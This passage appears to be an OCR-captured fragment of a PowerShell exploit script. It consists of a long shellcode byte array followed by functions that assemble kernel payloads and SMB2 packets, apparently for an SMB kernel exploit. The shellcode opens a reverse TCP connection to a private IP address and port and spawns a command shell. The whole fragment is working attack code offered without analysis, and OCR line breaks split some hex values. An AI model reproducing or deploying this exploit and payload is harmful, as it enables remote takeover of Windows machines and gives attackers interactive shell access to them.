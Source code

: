 0,0x52,0x51,0x56,0x48,0x31,0xD2,0x65,0x48,0x8B,0x52,0x60,0x48,0x8B,0x52,0x18,0x48,0x8B,0x52,0x20,0x48,0x8B,0x72,0x50,0x48,0x0F,0xB7,0x4A,0x4A,0x4D,0x31,0xC9,0x48,0x31,0xC0,0xAC,0x3C,0x61,0x7C,0x02,0x2C,0x20,0x41,0xC1,0xC9,0x0D,0x41,0x01,
0xC1,0xE2,0xED,0x52,0x41,0x51,0x48,0x8B,0x52,0x20,0x8B,0x42,0x3C,0x48,0x01,0xD0
,0x8B,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xC0,0x74,0x67,0x48,0x01,0xD0,0x50,0x8
B,0x48,0x18,0x44,0x8B,0x40,0x20,0x49,0x01,0xD0,0xE3,0x56,0x48,0xFF,0xC9,0x41,0x8B,0x34,0x88,0x48,0x01,0xD6,0x4D,0x31,0xC9,0x48,0x31,0xC0,0xAC,0x41,0xC1,0xC9,0x0D,0x41,0x01,0xC1,0x38,0xE0,0x75,0xF1,0x4C,0x03,0x4C,0x24,0x08,0x45,0x39,0xD1,
0x75,0xD8,0x58,0x44,0x8B,0x40,0x24,0x49,0x01,0xD0,0x66,0x41,0x8B,0x0C,0x48,0x44
,0x8B,0x40,0x1C,0x49,0x01,0xD0,0x41,0x8B,0x04,0x88,0x48,0x01,0xD0,0x41,0x58,0x4
1,0x58,0x5E,0x59,0x5A,0x41,0x58,0x41,0x59,0x41,0x5A,0x48,0x83,0xEC,0x20,0x41,0x52,0xFF,0xE0,0x58,0x41,0x59,0x5A,0x48,0x8B,0x12,0xE9,0x57,0xFF,0xFF,0xFF,0x5D,0x49,0xBE,0x77,0x73,0x32,0x5F,0x33,0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xE6,0x48,
0x81,0xEC,0xA0,0x01,0x00,0x00,0x49,0x89,0xE5,0x49,0xBC,0x02,0x00,0x11,0x5E,0xC0
,0xA8,0x6F,0x80,0x41,0x54,0x49,0x89,0xE4,0x4C,0x89,0xF1,0x41,0xBA,0x4C,0x77,0x2
6,0x07,0xFF,0xD5,0x4C,0x89,0xEA,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xBA,0x29,0x80,0x6B,0x00,0xFF,0xD5,0x50,0x50,0x4D,0x31,0xC9,0x4D,0x31,0xC0,0x48,0xFF,0xC0,0x48,0x89,0xC2,0x48,0xFF,0xC0,0x48,0x89,0xC1,0x41,0xBA,0xEA,0x0F,0xDF,0xE0,0xFF,
0xD5,0x48,0x89,0xC7,0x6A,0x10,0x41,0x58,0x4C,0x89,0xE2,0x48,0x89,0xF9,0x41,0xBA
,0x99,0xA5,0x74,0x61,0xFF,0xD5,0x48,0x81,0xC4,0x40,0x02,0x00,0x00,0x49,0xB8,0x6
3,0x6D,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xE2,0x57,0x
57,0x57,0x4D,0x31,0xC0,0x6A,0x0D,0x59,0x41,0x50,0xE2,0xFC,0x66,0xC7,0x44,0x24,0x54,0x01,0x01,0x48,0x8D,0x44,0x24,0x18,0xC6,0x00,0x68,0x48,0x89,0xE6,0x56,0x50,
0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xFF,0xC0,0x41,0x50,0x49,0xFF,0xC8,0x4D,0x89
,0xC1,0x4C,0x89,0xC1,0x41,0xBA,0x79,0xCC,0x3F,0x86,0xFF,0xD5,0x48,0x31,0xD2,0x4
8,0xFF,0xCA,0x8B,0x0E,0x41,0xBA,0x08,0x87,0x1D,0x60,0xFF,0xD5,0xBB,0xE0,0x1D,0x2A,0x0A,0x41,0xBA,0xA6,0x95,0xBD,0x9D,0xFF,0xD5,0x48,0x83,0xC4,0x28,0x3C,0x06,0x7C,0x0A,0x80,0xFB,0xE0,0x75,0x05,0xBB,0x47,0x13,0x72,0x6F,0x6A,0x00,0x59,0x41,
0x89,0xDA,0xFF,0xD5,)
return $shellcode
}

function make_kernel_user_payload($ring3) {
    $sc = make_kernel_shellcode
    $sc += [bitconverter]::GetBytes([uint16] ($ring3.length))
    $sc += $ring3
    return $sc
 }
function make_smb2_payload_headers_packet(){
    [Byte[]] $pkt = [Byte[]](0x00,0x00,0xff,0xf7,0xFE) + [system.Text.Encoding]::ASCII.GetBytes("SMB") + [Byte[]](0x00)*124

    return $pkt
}

function make_smb2_payload_body_packet($kernel_user_payload) {
    $pkt_max_len = 4204
    $pkt_setup_len = 497
    $pkt_max_payload = $pkt_max_len - $pkt_setup_len

    #padding
    [Byte[]] $pkt = [Byte[]] (0x00) * 0x8
    $pkt += 0x03,0x00,0x00,0x00
    $pkt += [Byte[]] (0x00) * 0x1c
    $pkt += 0x03,0x00,0x00,0x00
     $pkt += [Byte[]] (0x00) * 0x74

